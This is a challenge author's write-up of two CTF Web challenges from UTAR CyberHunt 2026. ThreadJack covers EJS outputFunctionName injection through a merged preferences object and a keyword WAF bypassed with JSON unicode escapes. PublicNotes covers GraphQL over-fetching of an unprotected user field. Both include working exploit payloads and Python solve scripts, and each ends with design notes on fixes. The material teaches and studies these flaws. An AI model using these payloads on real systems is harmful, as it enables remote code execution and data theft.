

> Both of these challenges were **created by me** for **UTAR CyberHunt 2026** (the UTAR-FICT 3rd Intervarsity CTF), under the Web category. This writeup walks through the intended solution for each one.
{: .prompt-info }

Hello again! This time I've got two of my own Web challenges to write up — **ThreadJack** and **PublicNotes** — both from UTAR CyberHunt 2026. They're pretty different in flavour: ThreadJack is a Node/EJS server-side RCE that hides behind a "we blocked all the scary words" WAF, and PublicNotes is a GraphQL challenge about reading data you were never meant to reach. Neither one needs a login or a bot — just you, the app, and a careful look at where user input ends up.

Both flags are `cyber26{...}`.

---

## ThreadJack

> Name: ThreadJack
>
> Category: Web
>
> Difficulty: Hard
>
> Welcome to HypeWear — the freshest streetwear drop platform on the block. Customize your look, browse the latest fits, and make it yours. But be careful... sometimes the thread you pull unravels the whole outfit.

### 1. Looking around

HypeWear is a little streetwear store. You can browse products, add things to a cart and a wishlist, and — the interesting bit — there's a **My Account** page where you set display preferences.


The preferences panel lets you pick a theme and two banner colours, and it helpfully prints your current configuration as JSON:


Saving prefs fires a `POST /api/preferences` with a body like:

```json
{ "prefs": { "theme": "light", "layout": { "bannerColor": "#000000", "textColor": "#ffffff" } } }
```

Two things about that request should make you curious: it's a **nested object** being sent to the server, and the server clearly **merges** it into something it keeps per-session. Nested user-controlled merge is a classic place for things to go wrong.

### 2. Where your prefs actually go

Grab the source (`dist/`) and read `server.js` top to bottom. The custom view engine is the first thing that jumps out:

```javascript
app.engine('ejs', (filePath, options, callback) => {
    const renderOpts = Object.assign({ filename: filePath }, options._themeConfig || {});
    ejs.renderFile(filePath, options, renderOpts, callback);
});
```
{: file="server.js" }

`ejs.renderFile(path, data, options, cb)` — so `renderOpts` is the **EJS options object**. And `renderOpts` is `{ filename }` with `options._themeConfig` spread on top of it. Where does `_themeConfig` come from?

```javascript
app.use((req, res, next) => {
    res.locals.prefs = req.session.prefs;
    res.locals._themeConfig = req.session.prefs;   // <-- here
    ...
});
```
{: file="server.js" }

`res.locals._themeConfig` **is** `req.session.prefs`. So every key on your saved preferences object gets `Object.assign`-ed straight into the EJS options for every page render. If I can put an arbitrary key on `req.session.prefs`, I control EJS's options — and EJS options are famously dangerous.

Now the merge itself:

```javascript
function deepMerge(target, source) {
    for (let key in source) {
        if (key === '__proto__' || key === 'constructor' || key === 'prototype') continue;
        if (typeof source[key] === 'object' && source[key] !== null && !Array.isArray(source[key])) {
            if ((typeof target[key] !== 'object' && typeof target[key] !== 'function') || target[key] === null) {
                target[key] = {};
            }
            deepMerge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

app.post('/api/preferences', (req, res) => {
    const { prefs } = req.body;
    if (prefs && typeof prefs === 'object') {
        deepMerge(req.session.prefs, prefs);
        return res.json({ success: true, prefs: req.session.prefs });
    }
    ...
});
```
{: file="server.js" }

It *looks* like a prototype-pollution setup, and the merge even tries to guard against it by skipping `__proto__` / `constructor` / `prototype`. That guard actually works — you can't reach `Object.prototype` through here. But you don't need to. The merge happily copies **any other key** onto `req.session.prefs`, and thanks to the `_themeConfig` wiring above, that object *is* the EJS options. The bug isn't the pollution; it's that a per-user settings blob is reused verbatim as library configuration.



### 3. The 'no scary words' WAF

Before the JSON parser even runs, there's a body filter:

```javascript
app.use(express.json({
    verify: (req, res, buf) => {
        const bodyStr = buf.toString().toLowerCase();
        const blacklist = ['__proto__', 'constructor', 'prototype', 'exec', 'spawn', 'outputfunctionname'];
        for (let word of blacklist) {
            if (bodyStr.includes(word)) throw new Error(`WAF: Security Violation ... ${word}`);
        }
    }
}));
```
{: file="server.js" }

It lowercases the **raw request body** and rejects it if the bytes contain any of those substrings. That's a string check on the wire format, not on the parsed object — and JSON has `\uXXXX` escapes. `"outputFunctionName"` doesn't contain the substring `outputfunctionname` on the wire, but `JSON.parse` turns it back into the key `outputFunctionName`. Same trick works for any blacklisted word I might need in a value.

### 4. From 'merge' to RCE

The EJS option I want is **`outputFunctionName`**. When EJS compiles a template it builds a function body as a string and `eval`s it; `outputFunctionName`, if set, is dropped into that generated source *unsanitised*. EJS only started validating it against a JS-identifier regex in **3.1.7** — this challenge pins **`ejs@3.1.6`**, so anything goes. Setting it to `x; <my code>; //` runs `<my code>` at render time.

First attempt — read the flag with `require('fs')`:

```
x;const fs=require('fs');throw new Error('FLAG=>'+fs.readFileSync('/'+fs.readdirSync('/').find(f=>f.startsWith('flag'))));//
```

That fails with **`require is not defined`** — the compiled template runs in an `eval` scope, not a module scope, so there's no `require`. But `process` *is* a global there. `process.mainModule.require` gives us a working `require` (the app is started as `node server.js`, so `mainModule` is set):

```
x;throw new Error('FLAG=>'+process.mainModule.require('fs').readFileSync('/'+process.mainModule.require('fs').readdirSync('/').find(f=>f.startsWith('flag'))));//
```

I don't even need `child_process` (which would trip `exec` / `spawn` in the WAF) — `fs` is enough, and the flag file is `/flag_<random>.txt`, so I list `/` and grab the one starting with `flag`.

For output, I `throw` the flag. The app's error handler is generous:

```javascript
app.use((err, req, res, next) => {
    if (err.message && err.message.startsWith('WAF')) return res.status(403).json({ error: err.message });
    res.status(500).send(`<pre>Internal Server Error:\n${err.stack || err.message || err}</pre>`);
});
```
{: file="server.js" }

So the thrown message lands right in the 500 response.

### 5. Putting it together

```python
#!/usr/bin/env python3
import json, re, requests, sys

TARGET = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000"
s = requests.Session()
s.get(f"{TARGET}/profile")            # get a session cookie

fsr = "process.mainModule.require('fs')"
payload = (f"x;throw new Error('FLAG => '+{fsr}.readFileSync('/'+"
           f"{fsr}.readdirSync('/').find(f=>f.startsWith('flag'))));//")

# \u-escape the one blacklisted key so the WAF never sees "outputfunctionname"
key = "".join(f"\\u{ord(c):04x}" for c in "outputFunctionName")
raw = '{"prefs":{"' + key + '":' + json.dumps(payload) + '}}'

s.post(f"{TARGET}/api/preferences", data=raw, headers={"Content-Type": "application/json"})
html = s.get(f"{TARGET}/").text
print(re.search(r"cyber26\{[^}]+\}", html).group(0))
```

Run it, and the injected code executes on the next render:


→ **Flag** → `cyber26{h0w_t0_dr1p_w1th_pr0t0typ3_p0llut10n_and_3js}`

### Design notes

The whole challenge is one line: `Object.assign({ filename: filePath }, options._themeConfig || {})`. Mixing a user-controlled object into a library's config object is the actual vulnerability — the WAF and the "safe" merge guard are there to make you feel like the front door is locked while the side window is wide open. The real fixes are to (a) never feed request data into render options, and (b) keep a strict allow-list of preference keys instead of a recursive merge.

---

## PublicNotes

> Name: PublicNotes
>
> Category: Web
>
> Difficulty: Medium
>
> Our company just launched a public knowledge base powered by some fancy new API technology. We made sure the confidential notes are locked down — only admins can see those. But maybe we missed something? Sometimes the most interesting data is just a few connections away...

### 1. Finding the API

PublicNotes is a knowledge base — notes with an author, a category, and tags.


The frontend is a single minified script. Watch the network tab (or just read the JS) and every data fetch is a `POST /api/v2/data` with a body shaped like `{ "query": "...", "variables": {...} }`. That `query` key is the tell — this is **GraphQL** wearing a `/api/v2/data` disguise. Confirm it:

```bash
curl -s http://TARGET/api/v2/data -H 'Content-Type: application/json' -d '{"query":"{__typename}"}'
# {"data":{"__typename":"Query"}}
```

### 2. Introspection

`introspection: true` is set on the server, so we can ask GraphQL to describe itself:

```graphql
{
  __schema {
    types {
      name
      fields { name type { name kind ofType { name kind } } }
    }
  }
}
```

The schema that comes back:

```
Query:    publicNotes, confidentialNotes, searchNotes, auditLogs, activeSessions
Mutation: submitFeedback, authenticate
Note:     id, title, content, isPublic, author: User, category: Category, tags: [Tag]
User:     id, username, displayName, role, internalNote      <-- interesting
Category: id, name, createdBy: User
Tag:      id, label, managedBy: User
```

`User.internalNote` is clearly where the good stuff lives.

### 3. The red herrings

There are several ways it *looks* like you're meant to go, and all of them are dead ends:

- `confidentialNotes`, `auditLogs`, `activeSessions` — every one of these resolvers checks `context.isAdmin`, which is only true with a `Bearer <ADMIN_TOKEN>` header, and that token is `crypto.randomBytes(32)` at boot. Not guessable.
- The `authenticate(username, password)` mutation — it sleeps a random 100–300ms and then **always** returns `{ success: false }`. It's bait; there's no login to brute.
- There's also a **query depth limit** — a custom plugin rejects any operation deeper than **5** levels.

None of that is the way in.

### 4. The real path — nested over-fetching

`confidentialNotes` is guarded, but the **`User` type is not** — and `User` (with its `internalNote`) is reachable from `publicNotes` through the object graph:

- `publicNotes → author → internalNote`
- `publicNotes → category → createdBy → internalNote`
- `publicNotes → tags → managedBy → internalNote`

The resolvers for `Note.author`, `Category.createdBy` and `Tag.managedBy` just look the user up and hand back the whole record — `internalNote` included. There's no field-level auth. So we walk the public data into the users we were never supposed to see:

```graphql
{
  publicNotes {
    title
    author { username internalNote }
    category { name createdBy { username internalNote } }
    tags { label managedBy { username internalNote } }
  }
}
```

That's depth 4 (`publicNotes → tags → managedBy → internalNote`), comfortably under the limit of 5.

The `svc_notes` user — an `admin` service account — manages the `deployment` tag, which is attached to the public "Deployment Checklist" note. So `publicNotes → tags(deployment) → managedBy(svc_notes) → internalNote` hands us:

→ **Flag** → `cyber26{gr4phQL_d33p_n3st3d_1ntr0sp3ct10n_ftw}`

```python
#!/usr/bin/env python3
import re, requests, sys

URL = (sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000") + "/api/v2/data"
q = """
{ publicNotes {
    author { username internalNote }
    category { createdBy { username internalNote } }
    tags { managedBy { username internalNote } }
} }"""
data = requests.post(URL, json={"query": q}).json()["data"]["publicNotes"]

blob = str(data)
print(re.search(r"cyber26\{[^}]+\}", blob).group(0))
```

### Design notes

Introspection being on just speeds up recon — the bug would still be there with it off. The real issue is **authorisation checked at the query root instead of the field**: `confidentialNotes` is locked, but the sensitive *field* (`internalNote`) rides along on a type that public queries can reach. The depth limit and the fake `authenticate` mutation are there to send you down the wrong road for a while. Fixes: put the auth check on `User.internalNote` itself (or don't expose it on a shared type), and don't rely on locking the "obvious" query when the same data is one hop away on another.

---

## Conclusion

Two challenges, same underlying lesson from opposite directions: **it doesn't matter how well you lock the front door if the data (or the config) is reachable another way.** ThreadJack blocks a pile of keywords and guards its merge, but pipes your settings straight into EJS options. PublicNotes gates every "confidential" query, but leaves the confidential *field* hanging off a type you can reach from public data.

Thanks to everyone who played UTAR CyberHunt 2026 — I had a lot of fun building these. Till the next one, ciao!
